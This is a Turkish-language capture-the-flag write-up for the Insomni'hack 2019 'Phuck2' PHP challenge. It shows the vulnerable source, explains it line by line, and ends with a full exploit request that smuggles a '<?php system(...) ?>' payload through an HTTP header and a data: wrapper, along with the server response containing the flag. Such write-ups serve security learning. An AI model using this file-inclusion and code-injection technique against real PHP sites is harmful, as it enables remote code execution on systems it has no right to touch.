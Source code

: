 # Phuck2 – Insomni’hack 2019

Another year, another PH(P)uck. Have fun with that !

http://phuck.teaser.insomnihack.ch/?hl=1

http://phuck.teaser.insomnihack.ch/phpinfo.php


```php
<?php
    stream_wrapper_unregister('php');
    if(isset($_GET['hl'])) highlight_file(__FILE__);

    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };

    $randFolder = bin2hex(random_bytes(16));
    $mkdir('users/'.$randFolder);
    chdir('users/'.$randFolder);

    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    chdir('..');

    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }

    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);
```

# Analiz 

## Kodun analizi

```php
stream_wrapper_unregister('php');
```
**php://** wrapperını kayıtdışı ediyoruz.

---
```php
$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
```
**escapeshellarg** ifadesini geçemeyeceğimiz için bura ile uğraşmamıza gerek yok

---
```php
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);
```
Kullanıcıya özel random bir klasör oluşturup dizini değiştiriyor.

---
```php
$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));
```
**X-Forwarded-For** headeri set edilmiş ise headerin değerini, edilmemiş ise kullanıncın(bizim) IP adresimizi **$userFolder** değişkenine atıyor.

**$userFolder** değişkenindeki değerin varsa **noktaları**, **tire** ve **boşluk** karakterlerini -siliyor- '' ile değiştiriyor. (“127.0.0 .1” -> “127001” gibi)

---
```php
$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
```
**$userFolder** değeri ile klasör açar ve o klasörün içine **profile** adlı dosyaya [**$_SERVER** arrayinin](http://php.net/manual/tr/reserved.variables.server.php) içeriğini yazar.

---
```php
$_GET['page']=str_replace('.','',$_GET['page']);

if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);
```
**GET** ile yolladığımız **page** değerindeki noktaları siliyor ve **file_get_contents($page)** ile açtığımız dosyanın içinde stripos ile  dosyanın içerisinde **<?** veya **php** kelimelerinin geçip geçmediğini kontrol ediyor. 

Daha sonra dosyayı siliyor

----
## Phpinfo

|     Directive     | Local Value | Master Value |
|:-----------------:|:-----------:|:------------:|
|  allow_url_fopen  |      On     |      On      |
| allow_url_include |     Off     |      Off     |

Olduğunu görüyoruz bunun anlamı **include** içerisinde **url** ve bazı **wrapperler** çalışmayacak.

## Çözüm
---

**data:,xx/profile** diye veri yolladığımız zaman **allow_url_fopen** ve **allow_url_include**'dan dolayı;
```
# --> döndürdüğü(return) değerini ifade edecek
file_get_contents('data:,xx/profile'); --> string 'xx/profile'
include('data:,xx/profile');           --> 'data:,xx/profile' adına sahip dosyasının içeriği
```
**data** wrapperi **file_get_contents**'te çalışırken **include**'ta çalışmadı.

yani;

```
GET /?page=data:,xx/profile HTTP/1.1
X-Forwarded-For: data:,xx
Get-Flag: <?php system('/get_flag'); ?>
Host: phuck.teaser.insomnihack.ch


HTTP/1.1 200 OK
Date: Sun, 20 Jan 2019 20:16:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: User-Agent,Accept-Encoding
Content-Length: 1101
Content-Type: text/html; charset=UTF-8

Array
(
    [HTTP_X_FORWARDED_FOR] => data:,xx
    [HTTP_GET_FLAG] => INS{PhP_UrL_Phuck3rY_h3h3!}
    [HTTP_HOST] => phuck.teaser.insomnihack.ch
    [PATH] => /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    [SERVER_SIGNATURE] => <address>Apache/2.4.29 (Ubuntu) Server at phuck.teaser.insomnihack.ch Port 80</address>

    [SERVER_SOFTWARE] => Apache/2.4.29 (Ubuntu)
    [SERVER_NAME] => phuck.teaser.insomnihack.ch
    [SERVER_ADDR] => 172.17.0.2
    [SERVER_PORT] => 80
    [REMOTE_ADDR] => **CENSORED**
    [DOCUMENT_ROOT] => /var/www/html/
    [REQUEST_SCHEME] => http
    [CONTEXT_PREFIX] => 
    [CONTEXT_DOCUMENT_ROOT] => /var/www/html/
    [SERVER_ADMIN] => [no address given]
    [SCRIPT_FILENAME] => /var/www/html/index.php
    [REMOTE_PORT] => 42696
    [GATEWAY_INTERFACE] => CGI/1.1
    [SERVER_PROTOCOL] => HTTP/1.1
    [REQUEST_METHOD] => GET
    [QUERY_STRING] => page=data:,xx/profile
    [REQUEST_URI] => /?page=data:,xx/profile
    [SCRIPT_NAME] => /index.php
    [PHP_SELF] => /index.php
    [REQUEST_TIME_FLOAT] => 1548015373.641
    [REQUEST_TIME] => 1548015373
)

```

Ve flag **INS{PhP_UrL_Phuck3rY_h3h3!}**
---
---
### NOT: Soruyu CTF sırasınca çözmüş olmayıp, CTF sornası IRC'den verilen bilgiler (**Blaklis** tarafından) yardımı ile yazılmıştır 